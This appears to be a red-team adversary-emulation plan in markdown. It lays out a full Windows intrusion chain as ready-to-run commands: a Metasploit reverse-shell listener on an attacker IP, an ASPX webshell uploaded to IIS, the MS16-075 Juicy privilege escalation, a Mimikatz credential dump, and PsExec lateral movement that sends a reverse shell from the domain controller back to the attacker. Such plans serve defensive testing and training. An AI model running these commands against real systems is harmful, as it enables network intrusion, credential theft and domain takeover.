 # Scenario 1

## I. Preface
This emulation plan contains several placeholder values that are meant to be replaced with values specific to the target environment against which this plan is to be run.

|||
|-|-|
|`<user_admin>`| Username of local admin account |
|`<pass_admin>`| Username of local admin account |
|`<domain>`| Name of the domain |
|`<ip_attacker>`| IP of attacker's computer |
|`<ip_iis`| IP of IIS Server |
|`<name_ad>`| Name of AD Server |


## II. Contents

* [Step 0 - Setup](#step0)
* [Step 1 - Initial Access](#step1)
* [Step 2 - Privilege Escalation](#step2)
* [Step 3 - Credentials Dumping](#step3)
* [Step 4 - Domain Discovery](#step4)
* [Step 5 - Lateral Movement](#step5)

---

### Pre-requisites

Prior to beginning the following emulation Scenario, ensure you have the proper infrastructure requirements and configuration in place as stated in the [Scenario 1 Infrastructure](./Infrastructure.md) documentation.

---

### Step 0 - Setup <a name="step0"></a>

#### 0 - Start C2 Server
On the `Attack Platform`:

1. `ctrl - alt - T` to open `Terminal 1`

2. Start listening on port `4444`
```
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <ip_attacker>;set lport 4444;run'
```

---

### Step 1 - Initial Access <a name="step1"></a>

The scenario begins when attacker successfully upload a reverse webshell `session.aspx` to the target's webserver. <br>
After opening the webshell, `Attack Platform` receives a connection from `IIS server`.

#### 1.A - Upload reverse shell

On the `Attack Platform`:

1. Open `<ip_iis>` on a web browser

2. Click `Browse...` and select `session.aspx` for uploading

3. Click `Send`

#### 1.B - Execute reverse shell

On the `Attack Platform`:

1. Open `<ip_iis>/session.aspx` on web browser

2. Now on `Terminal 1` there should be a meterpreter session

---

### Step 2  - Privilege Escalation <a name="step2"></a>

The attacker exploit `IIS server` using `Windows Net-NTLMv2 Reflection DCOM/RPC (Juicy)` vunerable to get `System` privilege

#### 2 - Obtain System shell
On the `Terminal 1` of `Attack Platform`:

1. Run these command on the meterpreter session obtained from the previous step
```
background
use exploit/windows/local/ms16_075_reflection_juicy
set TARGET 0
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set SESSION 1
exploit

```

---

### Step 3  - Credentials Dumping <a name="step3"></a>

With a `System` shell in hand, attacker starts to collect credentials cached in memory using `Mimikatz`

#### 3.A - Load Mimikatz

On the `Terminal 1` of `Attack Platform`:

1.  Load mimikatz to memory
```
load kiwi
```

#### 3.B - Dump credentials

On the `Terminal 1` of `Attack Platform`:

1.  Dump all types of credentials including `msv`, `wdigest`, `kerberos`. Note that in this scenario
we focus on `wdigest` credentials
```
creds_all
```

2.  Collect `<user_admin>`, `<pass_admin>` and `<domain>` 

---

### Step 4 - Domain Discovery <a name="step4"></a>

The attacker use `nslookup` on `<domain>` to get the domain controller's name `<name_ad>`

#### 4 - Find domain controller's name

On the `Terminal 1` of `Attack Platform`:

1.  Switch from meterpreter session to cmd shell
```
shell
```

2.  Run `nslookup` command
```
nslookup <domain>
```

3.  Obtain the server's name on the first line

4.  Return to meterpreter session
```
exit
```

---

### Step 5 - Lateral Movement <a name="step5"></a>

The attacker now has `<name_ad>`, `<user_admin>` and `<pass_admin>`. They now can remote execute a reverse shell on `AD server` using `PsExec` with above credentials.

#### 5.A - Tools transfer

On the `Terminal 1` of `Attack Platform`:

1.  Upload `PsExec.exe` to `C:\Users\<user_admin>\AppData\Local\Temp`
```
upload /tmp/modules/PsExec.exe C:\\Users\\<user_admin>\\AppData\\Local\\Temp\\PsExec.exe
```

2.  Upload `session.exe` to `C:\Users\<user_admin>\AppData\Local\Temp`
```
upload /tmp/modules/session.exe C:\\Users\\<user_admin>\\AppData\\Local\\Temp\\session.exe
```

#### 5.B - Listen for another session

On the `Attack Platform`:

1. `ctrl - alt - T` to open `Terminal 2`

2. Start listening on port `4445`
```
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <ip_attacker>;set lport 4445;run'
```

#### 5.C - Remote Execute

On the `Terminal 1` of `Attack Platform`:

1.  Move to the tools's location
```
shell
cd C:\Users\<user_admin>\AppData\Local\Temp
```

2.  Run `PsExec.exe` to execute `session.exe` on `AD Server`
```
psexec.exe \\<name_ad> -i -h -u <user_admin> -p <pass_admin> -accepteula -d -c session.exe
```

3.  Now `Terminal 2` should receive a connection back from `AD Server` with local admin privilege


